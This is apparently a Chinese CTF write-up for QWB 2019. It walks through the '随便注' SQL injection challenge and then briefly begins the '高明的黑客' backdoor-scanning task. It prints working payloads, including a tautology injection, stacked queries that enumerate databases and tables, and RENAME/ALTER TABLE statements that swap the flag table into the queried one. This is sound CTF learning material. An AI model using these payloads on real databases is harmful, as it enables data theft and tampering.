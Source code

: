 # 强网杯2019-Writeup

## 随便注

![1576313506162](强网杯_2019-Writeup.assets/1576313506162.png)

构造URL发现是否存在注入点（废话）

``` url
/?inject=1 ' or '1'='1';#
```

![1576314055495](强网杯_2019-Writeup.assets/1576314055495.png)

通过查询发现，直接把原始的返回数据给返回到页面



随意构造了一个shelect语句，返回了过滤信息：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

可以发现，这里过滤了：`select` `update` `dalete` `drop` `insert` `where` `.` 等敏感关键词

过滤的单词非常多，通过判断可以基本判定使用“**[堆叠注入（堆查询）](https://www.cnblogs.com/0nth3way/articles/7128189.html)**”是第一选择

构造堆叠注入判断Payload：`/?inject=1';show databases;#`查询所有数据库的库名

![1576314446969](强网杯_2019-Writeup.assets/1576314446969.png)

喏！可以判定这里存在“堆叠注入”

- 查询表名：`/?inject=1';show tables;#`

- 通过查询发现存在两个表：**words** 和 **1919810931114514** 

- 查询表字段：
  - `/inject=1';show columns from 1919810931114514;# `
    - 存在“flag“字段
    - 这张表里有flag
  - `/inject=1';show columns from words;#`
    - 存在 “id”和“data"两个字段
    - 可以发现这个表就是提交查询数据的那张表



从前辈的WP中了解到一招，将查询的默认表”words”改为“1919810931114514”

``` mysql
/?inject=1';
RENAME TABLE `words` TO `words1`;
RENAME TABLE `1919810931114514` TO `words`;
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;
show columns from words;#`
```

> - 表名重命名：`RENAME TABLE '原表名' TO '新表名'`
>
> - [ALTER TABLE](https://www.w3school.com.cn/sql/sql_alter.asp)：用于在已有的表中添加、修改或删除列
>   - ADD：添加字段 `ALTER TABLE 'table' ADD '新字段名' '类型'`
>   - DROP：删除字段`ALTER TABLE 'table' DROP COLUMN '字段名'`
>   - CHANGE：修改字段`ALTER TABLE 'table' CHANGE '字段名' '新字段名' 类型`
>

构造:`/?inject=1 ' or '1'='1';#` 获得Flag！

#### 总结：

> 





## 高明的黑客

按照提示，下载了“www.tar.gz”网站源码；下载后发现几百个文件，蒙蔽！直接找[Writeup](https://www.ctfwp.com/articals/2019qiangwang.html#%E9%AB%98%E6%98%8E%E7%9A%84%E9%BB%91%E5%AE%A2)

写一个脚本批量扫描”_GET"和" _POST"，传播一些特定的代码（ 比如 echo("glzjin"); /echo("glzjin") / echo glzjin，eval，assert，system 函数需要分别处理，一个文件需要用几种姿势多测几次)看看能执行不，能执行返回这种特定的字符串就说明此处可用。 

